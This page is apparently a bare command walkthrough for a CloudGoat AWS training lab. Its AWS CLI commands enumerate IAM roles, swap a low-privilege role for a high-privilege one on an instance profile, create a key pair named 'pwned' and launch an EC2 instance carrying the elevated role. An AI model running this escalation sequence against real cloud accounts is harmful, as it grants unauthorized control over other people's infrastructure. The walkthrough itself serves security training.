 `aws configure --profile Kerrigan`

`aws ec2 describe-instances --profile Kerrigan`

`aws iam list-instance-profiles --profile Kerrigan`

`aws iam list-roles --profile Kerrigan`

`aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Kerrigan`

`aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Kerrigan`

`aws ec2 create-key-pair --key-name pwned --profile Kerrigan`

`aws ec2 describe-subnets --profile Kerrigan`

`aws ec2 describe-security-groups --profile Kerrigan`

`aws ec2 run-instances --image-id ami-0a313d6098716f372 --iam-instance-profile Arn=<instanceProfileArn> --key-name pwned --profile Kerrigan --subnet-id <subnetId> --security-group-ids <securityGroupId>`

`sudo apt-get update`

`sudo apt-get install awscli`

`aws ec2 describe-instances --region us-east-1`

`aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1`
